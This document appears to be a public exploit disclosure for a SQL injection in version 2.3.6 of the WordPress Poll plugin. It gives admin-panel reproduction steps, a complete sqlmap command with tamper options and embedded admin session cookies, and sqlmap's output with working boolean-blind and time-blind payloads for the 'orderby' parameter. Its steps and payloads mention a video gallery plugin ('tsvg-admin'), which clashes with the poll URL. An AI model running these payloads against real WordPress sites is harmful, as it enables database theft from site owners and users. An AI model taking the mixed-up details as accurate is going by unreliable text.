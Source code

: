 ### Exploit Title: WordPress Poll Plugin SQL Injection 
### Date: 2024-07-06
### Exploit Author: tmrswrr
### Category : Webapps
### Vendor Homepage: https://total-soft.com/wp-poll/
### Version 2.3.6

## Steps to Reproduce:

1. **Access the Admin Panel:**
   - Navigate to the admin panel of your WordPress site.
   - Go to `TS Poll` > `Create Pool` > `Use Theme` and save it.
   - URL: `https://localhost/wordpress/wp-admin/admin.php?page=ts-poll-builder&tsp-id=1`

2. After saving, navigate back to `TS Video Gallery` and click the title:
   - URL: `https://localhost/wordpress/wp-admin/admin.php?page=ts-poll&orderby=Question_Title&order=desc`

3. Search for the `orderby` parameter.

<img alt="Result" src="https://raw.github.com/capture0x/Poll-Plugin-SQL-Injection-/main/1.png">


## SQLMAP Command:

```bash
python3 sqlmap.py -u "https://localhost/wordpress/wp-admin/admin.php?page=ts-poll&orderby=Question_Title&order=desc" \
--batch \
--dbms=mysql \
--thread=10 \
--no-cast \
--random-agent \
-v 3 \
--tamper="between,randomcase,space2comment" \
--level=5 \
--risk=3 \
-p orderby \
--cookie="wordpress_logged_in_d31d6d9d0bfd834c03c5a471886561f0=admin|1720435164|r5jSRyl4XMzcZz3xllDos9veD7hga8U8qFIWPQHv5Kr|e111b736b22043864d0f8ea6da823ca00768a110af4da612c555add1979839d1; wordpress_sec_d31d6d9d0bfd834c03c5a471886561f0=admin|1720435164|r5jSRyl4XMzcZz3xllDos9veD7hga8U8qFIWPQHv5Kr|173622110c7f3812695b26c96ba4905a7c760ac41e37645150dd4869ae884c4b; wordpress_test_cookie=WP Cookie check; wp-settings-time-1=1720266472"

---
Parameter: orderby (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: page=tsvg-admin&orderby=(SELECT (CASE WHEN (1078=1078) THEN 0x54535f56475f5469746c65 ELSE (SELECT 2977 UNION SELECT 8545) END))&order=desc
    Vector: (SELECT (CASE WHEN ([INFERENCE]) THEN [ORIGVALUE] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=tsvg-admin&orderby=TS_VG_Title AND (SELECT 6127 FROM (SELECT(SLEEP(5)))mIWx)&order=desc
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
---
